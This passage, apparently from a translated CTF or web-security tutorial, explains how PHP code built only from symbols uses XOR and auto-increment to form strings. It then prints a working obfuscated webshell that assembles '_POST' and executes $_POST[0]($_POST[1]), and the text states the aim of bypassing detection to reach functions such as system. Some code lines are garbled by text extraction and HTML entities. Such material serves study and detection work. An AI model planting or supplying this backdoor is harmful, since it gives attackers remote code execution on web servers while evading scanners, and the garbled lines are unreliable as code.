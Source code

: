 

The code execution results are as follows:


![](./figure/preg_match/answer2.png)



Let&#39;s analyze the above code together:


1, `$_++; ` This line of code means to increment the variable named `&quot;_&quot;`, the default value of the variable undefined in `PHP` `null`, `null== False==0`, we can get a number by auto-incrementing the undefined variable without using any numbers.


2, `$__=&quot;?&quot; ^ &quot;}&quot;; ` XOR the characters `?` and `}`, and get the result `B` assigned to the variable named `__` (two underscores)


3, `$ __ (); ` Through the above assignment operation, the value of the variable `$__` is `B`, so this line can be regarded as `B()`. In `PHP`, this line of code represents The function `B` is called, so the result is `Hello Angel_Kitty`. In `PHP`, we can treat strings as functions.


Seeing this, I believe that if you see a similar `PHP` backdoor, you should not be so confused. You can use the sentence analysis of the backdoor code to understand the functions that the backdoor wants to achieve.


We want to use this backdoor to create strings that bypass the detection and are useful to us, such as `_POST` , `system` , `call_user_func_array `, or whatever we need.


Here is a very simple non-alphanumeric `PHP` backdoor:


```

<?php

    @$_++; // $_ = 1

    $__=("#"^"|"); // $__ = _

    $__.=("."^"~"); // _P

$ __. = (&quot;/&quot; ^ &quot;` &quot;); // _PO
$ __. = (&quot;|&quot; ^ &quot;/&quot;); // _POS
    $__.=("{"^"/"); // _POST 

    ${$__}[!$_](${$__}[$_]); // $_POST[0]($_POST[1]);

?>

```



Here I explain, `.=` is a string connection, see `PHP` syntax for details.
